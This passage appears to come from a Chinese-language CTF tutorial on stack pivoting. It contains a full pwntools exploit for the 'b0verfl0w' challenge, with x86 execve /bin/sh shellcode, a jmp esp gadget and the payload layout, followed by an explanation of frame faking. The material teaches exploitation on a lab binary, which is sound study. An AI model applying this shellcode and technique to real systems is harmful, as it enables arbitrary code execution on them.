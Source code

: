 - size(shellcode+padding)=0x20
- size(fake ebp)=0x4
- size(0x08048504)=0x4

所以我們最後一段需要執行的指令就是

```asm
sub esp,0x28
jmp esp
```

所以最後的 exp 如下

```python
from pwn import *
sh = process('./b0verfl0w')

shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504
payload = shellcode_x86 + (
    0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp
sh.sendline(payload)
sh.interactive()
```

#### 例2-轉移堆

待。

### 題目

- [EkoPartyCTF 2016 fuckzing-exploit-200](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/stackprivot/EkoPartyCTF%202016%20fuckzing-exploit-200)

## frame faking

正如這個技巧名字所說的那樣，這個技巧就是構造一個虛假的棧幀來控制程序的執行流。

### 原理

概括地講，我們在之前講的棧溢出不外乎兩種方式

- 控制程序 EIP
- 控制程序 EBP

其最終都是控制程序的執行流。在 frame faking 中，我們所利用的技巧便是同時控制 EBP 與 EIP，這樣我們在控制程序執行流的同時，也改變程序棧幀的位置。一般來說其 payload 如下

```
buffer padding|fake ebp|leave ret addr|
```

即我們利用棧溢出將棧上構造爲如上格式。這裏我們主要講下後面兩個部分
